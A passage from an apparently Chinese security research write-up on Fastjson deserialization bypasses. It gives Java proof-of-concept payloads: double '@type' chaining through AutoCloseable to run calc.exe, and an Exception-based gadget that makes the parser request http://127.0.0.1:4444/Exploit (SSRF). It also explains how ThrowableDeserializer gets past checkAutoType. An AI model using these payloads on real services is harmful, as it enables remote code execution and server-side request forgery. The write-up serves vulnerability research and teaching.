   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSONObject;  
    public class ExecReadableMain {    public static void main(String[] args) {        String payload ="{\n" +                "  \"@type\":\"java.lang.AutoCloseable\",\n" +                "  \"@type\": \"org.heptagram.fastjson.ExecReadable\",\n" +                "  \"eval\":{\"@type\":\"org.heptagram.fastjson.EvalReadable\",\"cmd\":\"calc.exe\"}\n" +                "}";        JSONObject.parseObject(payload);    }}

执行结果：

![]()

##### $ref拓展使用

在checkAutoType检查分析部分我们说道找寻合适的JNDI较为困难，其原因是大多数JNDI的gadget都继承自DataSource和RowSet，所以反序列化的类过不了checkAutoType的检查，那么JNDI注入真的就无法使用了吗？浅蓝师傅和threedr3am师傅给出了关于通过$ref引用功能来触发getter的方法，理论上我们可以通过这种方式实现RCE，而且还能够在不开启AutoType的情况下，任意调用大部分当前反序列化对象的getter方法，如果存在危险的method则可以进行攻击，下面我们分别来看一下具体的方法：

浅蓝师傅给出的示例(原来的基础上稍有变形)：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import javax.activation.DataSource;import javax.activation.URLDataSource;import java.net.URL;  
    public class RefSSRF extends Exception {  
        public RefSSRF() {    }    private DataSource dataSource;  
        public DataSource getDataSource() {        return dataSource;    }    public void setDataSource(URL url) {        this.dataSource = new URLDataSource(url);    }}

执行载荷：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSON;  
    public class RefSSRFMain {    public static void main(String[] args) {        String a ="{\n" +                "  \"@type\": \"java.lang.Exception\",\n" +                "  \"@type\": \"org.heptagram.fastjson.RefSSRF\",\n" +                "  \"dataSource\": {\n" +                "    \"@type\": \"java.net.URL\",\n" +                "    \"val\": \"http://127.0.0.1:4444/Exploit\"\n" +                "  }\n" +                "}";        JSON.parseObject(a);    }}

执行之后可以看到有请求过来：

![]()

这里我们对原理做一个简单的介绍：

可以看到载荷中一共传入了两个@type，其中第一个为java.lang.Exception，它是Throwable的继承类，而用于反序列化Throwable异常类的是ThrowableDeserializer，所以又进入到了之前的execeptClass部分，之后根据根据第二个@type的值来获取具体类，并且根据传入的指定期望类进行加载：

![]()
